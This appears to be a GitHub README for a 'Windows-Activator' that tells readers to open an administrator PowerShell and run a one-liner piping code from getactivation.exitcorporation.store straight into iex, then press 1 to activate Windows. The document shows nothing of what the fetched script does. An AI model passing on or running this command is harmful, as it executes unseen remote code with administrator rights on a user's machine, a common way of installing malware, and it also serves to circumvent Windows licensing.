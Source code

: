 # Windows-Activator


1. open powershell in administrator and type " irm https://getactivation.exitcorporation.store | iex " Enter

 ![image](https://github.com/user-attachments/assets/576e5fbc-fc6b-492e-8bee-d001d098b392)

2. After this press " 1 " For Windows Activation

![image](https://github.com/user-attachments/assets/9068e3c9-76b9-416a-8c65-b8501ab2b84a)


  
